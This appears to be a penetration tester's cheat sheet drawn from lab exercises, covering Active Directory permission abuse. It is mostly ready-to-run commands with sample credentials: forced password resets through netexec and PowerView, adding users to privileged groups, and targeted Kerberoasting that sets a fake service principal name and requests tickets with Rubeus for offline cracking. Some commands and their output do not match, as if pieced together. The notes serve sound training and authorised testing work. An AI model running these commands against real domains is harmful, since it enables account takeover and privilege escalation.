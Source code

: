 #### Password Reset (User-Force-Change-Password)
Linux
```bash
netexec smb 10.10.11.69 -u p.agila -p 'prometheusx-303' -M change-password -o USER=winrm_svc NEWPASS='Pwned123!'
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```
#### Adding User to Group (GenericWrite)
Linux
```powershell
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

---

Windows
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```
